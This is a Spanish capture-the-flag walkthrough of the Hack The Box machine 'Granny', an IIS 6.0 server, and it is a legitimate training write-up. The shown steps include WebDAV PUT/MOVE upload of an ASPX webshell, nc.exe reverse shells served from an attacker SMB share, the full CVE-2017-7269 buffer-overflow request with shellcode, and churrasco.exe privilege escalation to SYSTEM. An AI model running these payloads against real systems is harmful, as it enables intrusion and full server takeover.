



# Granny

`Granny`, aunque es similar a `Grandpa`, puede ser explotada mediante varios métodos diferentes. El método previsto para resolver esta vulnerabilidad es la vulnerabilidad de carga de Webdav, ampliamente conocida.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Granny**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.15 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 22:40 CET
Initiating SYN Stealth Scan at 22:40
Scanning 10.10.10.15 [65535 ports]
Discovered open port 80/tcp on 10.10.10.15
SYN Stealth Scan Timing: About 23.55% done; ETC: 22:42 (0:01:41 remaining)
SYN Stealth Scan Timing: About 51.95% done; ETC: 22:41 (0:00:56 remaining)
Stats: 0:01:13 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 66.11% done; ETC: 22:41 (0:00:38 remaining)
Completed SYN Stealth Scan at 22:41, 101.72s elapsed (65535 total ports)
Nmap scan report for 10.10.10.15
Host is up, received user-set (0.035s latency).
Scanned at 2025-01-25 22:40:00 CET for 102s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
           Raw packets sent: 131147 (5.770MB) | Rcvd: 130 (7.720KB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.15
	[*] Open ports: 80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado del escaneo con los scripts de **Nmap**, nos encontramos que está habilitado el `WebDAV` y los métodos que están permitidos, verificaremos este punto más adelante.

```bash
❯ nmap -sCV -p80 10.10.10.15 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 22:42 CET
Nmap scan report for 10.10.10.15
Host is up (0.066s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Sat, 25 Jan 2025 21:42:59 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP (90%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (90%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (89%), Microsoft Windows 2003 SP2 (88%), Microsoft Windows XP SP3 (88%), Microsoft Windows XP (85%), Microsoft Windows Server 2003 (85%), Microsoft Windows XP SP2 (85%), Microsoft Windows Server 2003 SP1 - SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   89.60 ms 10.10.16.1
2   89.69 ms 10.10.10.15

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.62 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Revisararemos las tecnologías que utiliza el sitio web a través de la herramienta `whatweb`. En el resultado obtenido, verificamos que se trata de un `IIS 6.0`.

```bash
❯ whatweb http://10.10.10.15
http://10.10.10.15 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

Accederemos a [http://10.10.10.15](http://10.10.10.15) y nos encontramos con la siguiente página que no nos muestra aparentemente nada. Realizamos fuzzing de directorios, subdominios y tampoco logramos encontrar nada interesante.

<figure><figcaption></figcaption></figure>

## Initial Foothold

### Abusing PUT & MOVE Methods - Uploading Aspx WebShell

Dado que en el escaneo inicial con **Nmap** nos encontramos que estaba el `WebDAV`, realizamos un escaneo sencillo a través de la herramienta de `davtest` que se encargará de realizar un escaneo de subir archivos para verificar que extensiones son válidas para subir a través del método `PUT` que se encontraba habilitado.

En el resultado obtenido, verificamos que la extensión `asp` y `aspx` no nos permite la subida de archivos. Est sería un grave problema de seguridad dado que lo que hay detrás de la página web es un `IIS` que interpreta lenguaje de `aspx`.

```bash
❯ davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.10.10.15
********************************************************
NOTE	Random string for this session: EUx1hD
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_EUx1hD
********************************************************
 Sending test files
PUT	shtml	FAIL
PUT	aspx	FAIL
PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.txt
PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.php
PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.jhtml
PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.pl
PUT	asp	FAIL
PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.cfm
PUT	cgi	FAIL
PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.jsp
PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.html
********************************************************
 Checking for test file execution
EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.txt
EXEC	txt	FAIL
EXEC	php	FAIL
EXEC	jhtml	FAIL
EXEC	pl	FAIL
EXEC	cfm	FAIL
EXEC	jsp	FAIL
EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.html
EXEC	html	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_EUx1hD
PUT File: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.txt
PUT File: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.php
PUT File: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.jhtml
PUT File: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.pl
PUT File: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.cfm
PUT File: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.jsp
PUT File: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.html
Executes: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.txt
Executes: http://10.10.10.15/DavTestDir_EUx1hD/davtest_EUx1hD.html
```

Si en el escaneo de **Nmap** no nos huiera mostrado los métodos que se encuentran habilitados en el `WebDAV`, podemos realizar una solicitud con `cURL` para revisar la cabecera de la solicitud enviada.

```bash
❯ curl -s -X OPTIONS http://10.10.10.15 -I
HTTP/1.1 200 OK
Date: Sat, 25 Jan 2025 21:47:35 GMT
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
MS-Author-Via: MS-FP/4.0,DAV
Content-Length: 0
Accept-Ranges: none
DASL: <DAV:sql>
DAV: 1, 2
Public: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Allow: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Cache-Control: private
```

Realizaremos una prueba de enviar a través del método `PUT` el archivo `gzzcoo.txt` que contiene el nombre de nuestro usuario.

```bash
❯ whoami > gzzcoo.txt

❯ cat gzzcoo.txt
kali

❯ curl -s -X PUT http://10.10.10.15/gzzcoo.txt -d @gzzcoo.txt
```

Accediendo a la ruta donde hemos subido el archivo, verificamos que se ha subido correctamente y podemos visualizar el contenido del archivo.

<figure><figcaption></figcaption></figure>

Trataremos de subir una **webshell** de **aspx** en el sitio web. Al tratar de subirlo por el método `PUT` se nos indica que no disponemos de los permisos, por lo tanto, parece ser que el servidor bloquea la subida de archivos con esa extensión.

```bash
❯ ls -l cmdasp.aspx
.rw-r--r-- kali kali 1.4 KB Sat Jan 25 22:46:23 2025  cmdasp.aspx

❯ curl -s -X PUT http://10.10.10.15/cmd.aspx -d @cmdasp.aspx
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>

<h1>The page cannot be displayed</h1>
You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
</ul>
<h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
<hr>
<p>Technical Information (for support personnel)</p>
<ul>
<li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
<li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
 and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
<li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
</ul>

</TD></TR></TABLE></BODY></HTML>
```

Probaremos de subir la **webshell** con extensión `.txt` al servidor web.

```bash
❯ curl -s -X PUT http://10.10.10.15/cmd.txt -d @cmdasp.aspx
```

Verificaremos accediendo a la ruta del archivo subido que ha interpretado el archivo y se visualiza el contenido de la **webshell** pero no podemos hacer uso de ella.

<figure><figcaption></figcaption></figure>

Por lo tanto, como también disponemos del método `MOVE` habilitado en el servidor web, lo que realizaremos es renombrar el archivo `cmd.txt` que subimos para que sea renombrado a `cmd.aspx`.

```bash
❯ curl -s -X MOVE -H "Destination:http://10.10.10.15/cmd.aspx" http://10.10.10.15/cmd.txt
```

Probaremos nuevamente de acceder al nuevo archivo renombrado, y verificamos que hemos logrado eludir la verificación de la subida del archivo `aspx`. Esto debido que hemos subido el archivo en formato `.txt` y como disponíamos del método `MOVE` habilitado, lo renombramos por la extensión que deseamos.

Verificaremos a través de la ejecución del comando `whoami` de validar si funciona correctamente la **webshell**.

<figure><figcaption></figcaption></figure>

Nos pondremos en escucha por un puerto para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Desde otra terminal, deberemos de disponer del binario de `nc.exe` y levantar un servidor `SMB` para compartir este binario.

```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Sat Jan 25 22:49:55 2025  nc.exe
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde la **webshell** que hemos subido, ejecutaremos el binario de `nc.exe` que se está compartiendo en nuestro recurso compartido con el objetivo de obtener una Reverse Shell.

```powershell
\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 443
```

<figure><figcaption></figcaption></figure>

Verificaremos que hemos logrado acceder al equipo correctamente.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

### Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow \[RCE] (CVE-2017-7269)

Otra manera de realizar esta explotación, es revisando si existen vulnerabilidades para la versión de `IIS` que se encuentra en el servidor víctima. Entre los resultados obtenidos, verificamos que disponemos de un un exploit enPython que nos puede interesar.

```bash
❯ searchsploit IIS 6.0
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Inter | windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Rem | windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion D | windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of  | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhausti | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Rem | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypa | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypa | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypa | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypa | windows/remote/8806.pl
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilit | windows/remote/19033.txt
------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Revisando las vulnerabilidades, nos encontramos con el siguiente `CVE-2017-7269`.




Desbordamiento de búfer en la función ScStoragePathFromUrl en el servicio WebDAV en Internet Information Services (IIS) 6.0 en Microsoft Windows Server 2003 R2 permite a atacantes remotos ejecutar código arbitrario a través de una cabecera larga comenzando con "If:


Nos descargaremos el siguiente repositorio de GitHub para realizar la explotación.



Nos pondremos en escucha por un puerto para recibir la Reverse Shell del exploit.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```

Ejecutaremos el explooit indicándole el target (máquina victima) y el puerto en donde se encuentra el `IIS` expuesto, también informaremos nuestra dirección IP de atacante y el puerto en donde estamos en escucha.

```bash
❯ python2 IIS6.py 10.10.10.15 80 10.10.16.5 444
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

Verificaremos que hemos logrado obtener el acceso a la máquina objetivo.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.15] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

## Privilege Escalation

### Token Kidnapping - Churrasco

Revisando los permisos que dispone el usuario actual `NT AUTHORITY\NETWORK SERVICE`, nos encontramos que dispone del privilegio de `SeImpersonatePrivilege`.

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

Podríamos hacer uso de `JuicyPotato`, `PrintSpoofer`, etc, pero en este caso al tratarse de un equipo tan antiguo como es el `Windows Server 2003`, nos darían diversos problemas.

```bash
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
```

Buscando por Internet como poder explotar este privilegio desde un `Windows Server 2003`, nos encontramos con el siguiente blog el cual mencionan un binario llamado `churrasco.exe` que hace una función similar a `JuicyPotato`.



Nos descargaremos el binario en nuestro equipo y lo compartiremos a través de un servidor SMB.

```bash
❯ ls -l churrasco.exe
.rw-rw-r-- kali kali 30 KB Sat Jan 25 22:57:41 2025  churrasco.exe

❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde el equipo víctima, nos copiaremos el binario en una ruta que podamos ejeuctar el binario.

```powershell
C:\Temp>copy \\10.10.16.5\smbFolder\churrasco.exe C:\Temp\churrasco.exe
copy \\10.10.16.5\smbFolder\churrasco.exe C:\Temp\churrasco.exe
        1 file(s) copied.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\Temp

01/26/2025  12:05 AM    <DIR>          .
01/26/2025  12:05 AM    <DIR>          ..
01/25/2025  11:57 PM            31,232 churrasco.exe
               1 File(s)         31,232 bytes
               2 Dir(s)   1,319,219,200 bytes free
```

Desde nuestro equipo atacante, deberemos de disponer del binario `nc.exe` y levantar nuevamente un servidor SMB para compartir este otro binario.

```bash
❯ ls -l nc.exe
.rwxr-xr-x kali kali 28 KB Sat Jan 25 22:49:55 2025  nc.exe
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

En una nueva terminal nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
```

Desde el equipo víctima, ejecutaremos dos veces el binario `churrasco.exe` indicándole que ejecute el binario que estamos compartiendo a través de un recurso compartido, al ejecutar el binario nos proporcionará una Reverse Shell.

```bash
C:\Temp>churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"
churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"

C:\Temp>churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"
churrasco.exe "\\10.10.16.5\smbFolder\nc.exe -e cmd 10.10.16.5 444"
```

Verificamos que hemos logrado la conexión y que somos el usuario `NT AUTHORITY\SYSTEM`. Por otro lado, comprobamos que logramos visualizar las flags de **user.txt** y **root.txt**.

```bash
❯ rlwrap -cAr nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.15] 1041
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c05*********************

C:\Documents and Settings\Administrator\Desktop>type "C:\Documents and Settings\Lakis\Desktop\user.txt"
type "C:\Documents and Settings\Lakis\Desktop\user.txt"
700c5dc1*************************
```
